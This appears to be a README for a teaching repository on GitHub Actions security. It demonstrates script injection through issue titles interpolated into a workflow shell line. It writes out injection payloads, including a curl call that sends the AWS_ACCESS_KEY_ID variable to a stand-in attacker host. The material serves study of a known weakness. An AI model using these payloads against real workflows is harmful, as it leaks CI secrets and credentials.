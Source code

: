 # Security & Permissions

- Understanding Script Injection Attacks
- Increasing Actions Safety
- Understanding Permissions & Potential Issues
- GITHUB_TOKEN & Managing Permissions

# Example Repo

This is a super simple example repository!

Experiments:

1. Script Injection

Creating a issue with title - a";echo Got your secrets"
" closes the double quotes in workflow line issue_title="${{ github.event.issue.title }}"
Title is just "a", rest is interpreted as sript -> echo Got your secrets
Outcome: 
In shell "echo Got your secrets" is printed

Creating a issue with title - a";curl http://my-bad-site.com?abc=$AWS_ACCESS_KEY_ID"
curl can be used to send a http request to my-bad-site.com
query paramets abc could be set to the variable $AWS_ACCESS_KEY_ID
Outcome:
The env var AWS_ACCESS_KEY_ID is accessed and value is send to my-bad-site.com
Access key is exposed


